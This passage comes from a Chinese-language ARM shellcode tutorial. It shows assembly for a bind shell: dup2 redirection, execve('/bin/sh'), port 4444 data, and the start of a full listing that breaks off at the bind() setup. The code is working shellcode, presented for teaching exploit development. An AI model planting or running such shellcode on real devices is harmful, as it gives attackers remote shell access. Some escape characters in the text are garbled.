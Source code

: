 ```
/* dup2(client_sockid, 2) */
    mov     r0, r4                 // r4 is the saved client_sockid
    add     r1, #1                 // r1 = 1+1 (stderr) 
    svc     #1
```

### <a class="reference-link" name="4.7%20%E5%90%AF%E5%8A%A8shell"></a>4.7 启动shell

[![](https://p1.ssl.qhimg.com/t01103ead1df966a5d1.png)](https://p1.ssl.qhimg.com/t01103ead1df966a5d1.png)

```
// execve("/bin/sh", 0, 0) 
 adr r0, shellcode     // r0 = location of "/bin/shX"
 eor r1, r1, r1        // clear register r1. R1 = 0
 eor r2, r2, r2        // clear register r2. r2 = 0
 strb r2, [r0, #7]     // store null-byte for AF_INET
 mov r7, #11           // execve syscall number
 svc #1
 nop
```

我在[如何编写ARM Shellcode教程](https://azeria-labs.com/writing-arm-shellcode/)中给出了一个例子，这里`execve()`函数的转换过程与之前的例子相同，因此我不会再去详细解释具体步骤。

最后，我们需要在汇编代码的末尾存放一些值，如AF_INET（包含`0xff`数值，后面会被null字节替换）、端口号、IP地址以及`/bin/sh`字符串。

```
struct_addr:
.ascii "x02xff"      // AF_INET 0xff will be NULLed 
.ascii "x11x5c"     // port number 4444 
.byte 1,1,1,1        // IP Address 
shellcode:
.ascii "/bin/shX"
```

## 五、完整汇编代码

我们最终生成的bind shellcode如下所示：

```
.section .text
.global _start
    _start:
    .ARM
    add r3, pc, #1         // switch to thumb mode 
    bx r3

    .THUMB
// socket(2, 1, 0)
    mov r0, #2
    mov r1, #1
    sub r2, r2, r2      // set r2 to null
    mov r7, #200        // r7 = 281 (socket)
    add r7, #81         // r7 value needs to be split 
    svc #1              // r0 = host_sockid value
    mov r4, r0          // save host_sockid in r4

// bind(r0, &amp;sockaddr, 16)
    adr  r1, struct_addr // pointer to address, port
    strb r2, [r1, #1]    // write 0 for AF_INET
    strb r2, [r1, #4]    // replace 1 with 0 in x.1.1.1
    strb r2, [r1, #5]    // replace 1 with 0 in 0.x.1.1
    strb r2, [r1, #6]    // replace 1 with 0 in 0.0.x.1
    strb r2, [r1, #7]    // replace 1 with 0 in 0.0.0.x
```